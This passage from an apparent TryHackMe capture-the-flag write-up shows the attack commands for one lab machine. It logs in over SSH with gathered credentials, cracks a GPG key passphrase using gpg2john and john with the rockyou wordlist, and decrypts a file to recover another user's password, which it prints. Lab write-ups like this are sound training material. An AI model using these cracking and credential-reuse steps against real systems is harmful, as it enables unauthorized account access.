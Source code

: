 Using gathered credentials for `skyfuck`
```bash
ssh skyfuck@10.10.94.13
```

Found `user.txt` in /home/merlin directory

Under skyfuck's home directory
- credential.pgp
- tryhackme.asc

Using this website for cracking passwords with [JtR](https://ed4m4s.blog/password-attacks/john-the-ripper)

```bash
gpg2john tryhackme.asc > hash
```
- Crack the hash with john
```bash
john --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt hash
```
![[Pasted image 20240823183747.png]]
- import `tryhackme.asc:alexandru`
```bash
gpg --import tryhackme.asc
```
- decrypt `credential.pgp` file
```bash
gpg --decrypt credential.pgp
```
![[Pasted image 20240823183934.png]]
`merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

SSH as user `merlin`

